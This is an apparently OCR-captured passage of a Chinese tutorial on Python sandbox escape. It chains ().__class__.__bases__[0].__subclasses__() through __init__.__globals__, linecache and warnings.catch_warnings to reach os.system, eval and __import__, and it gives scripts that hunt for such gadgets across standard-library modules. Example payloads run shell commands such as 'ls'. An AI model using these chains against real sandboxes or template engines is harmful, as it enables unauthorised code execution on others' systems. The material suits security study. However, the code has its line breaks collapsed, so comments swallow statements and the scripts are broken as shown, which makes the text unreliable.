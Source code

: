 只需要再去获得一次即可

```none
>>> "".__class__.__bases__[0].__bases__[0].__subclasses__()[59]<class 'warnings.WarningMessage'>
```

## 特殊函数查找

### python3

在GitHub的python页面上把自带函数全部获取目前的3.8的模块(202)

```none
asynciocollectionsconcurrentctypescursesdbmdistutilsemailencodings......warnings.pywave.pyweakref.pywebbrowser.pyxdrlib.pyzipapp.pyzipfile.pyzipimport.py
```

将这么模块进行筛选，规则这些模块哪些有调用上面提到的模块，或者文件读取等方法。

```none
# coding=UTF-8import codecsfrom collections import defaultdictwith codecs.open('python.txt', 'r', encoding='UTF-8') as f:    modules = f.readlines()modules = [m.strip().replace('.py', '') for m in modules]target_modules = ['os', 'platform', 'subprocess', 'timeit', 'importlib', 'codecs', 'sys', 'commands']target_functions = ['__import__', '__builtins__', 'exec', 'eval', 'execfile', 'compile', 'file', 'open', 'codecs']all_targets = target_modules + target_functionsresults = defaultdict(list)for m in modules:    try:        module = __import__(m)    except Exception as e:        # print('ERROR:', m)        pass    for t in all_targets:        if t in module.__dict__:            results[m.encode()].append(t)print("可利用模块数量为:"+str(len(results)))for k, v in results.items():    print(k, v)
```

筛选完成后有python3两百个模块可能可以利用，然后再利用脚本进一步筛选

```none
find_modules = {    }target_modules = ['os', 'platform', 'subprocess', 'timeit', 'importlib', 'codecs', 'sys']target_functions = ['__import__', '__builtins__', 'exec', 'eval', 'execfile', 'compile', 'file', 'open']all_targets = list(set(list(find_modules.keys()) + target_modules + target_functions))all_modules = list(set(list(find_modules.keys()) + target_modules))subclasses = ().__class__.__bases__[0].__subclasses__()sub_name = [s.__name__ for s in subclasses]# 第一种遍历,如:().__class__.__bases__[0].__subclasses__()[40]('./test.py').read()print('----------1-----------')for i, s in enumerate(sub_name):    for f in all_targets:        if f == s:            if f in target_functions:                print(i, f)            elif f in all_modules:                target = find_modules[f]                sub_dict = subclasses[i].__dict__                for t in target:                    if t in sub_dict:                        print(i, f, target)print('----------2-----------')# 第二种遍历,如:().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')for i, sub in enumerate(subclasses):    try:        more = sub.__init__.__globals__        for m in all_targets:            if m in more:                print(i, sub, m, find_modules.get(m))    except Exception as e:        passprint('----------3-----------')# 第三种遍历,如:().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.values()[13]['eval']('__import__("os").system("ls")')for i, sub in enumerate(subclasses):    try:        more = sub.__init__.__globals__.values()        for j, v in enumerate(more):            for f in all_targets:                try:                    if f in v:                        if f in target_functions:                            print(i, j, sub, f)                        elif f in all_modules:                            target = find_modules.get(f)                            sub_dict = v[f].__dict__                            for t in target:                                if t in sub_dict:                                    print(i, j, sub, f, target)                except Exception as e:                    pass    except Exception as e:        passprint('----------4-----------')# 第四种遍历:如:().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']("os").system("ls")# <class 'warnings.catch_warnings'>类很特殊，在内部定义了_module=sys.modules['warnings']，然后warnings模块包含有__builtins__，不具有通用性，本质上跟第一种方法类似for i, sub in enumerate(subclasses):    try:        more = sub()._module.__builtins__        for f in all_targets:            if f in more:                print(i, f)    except Exception as e:        pass
```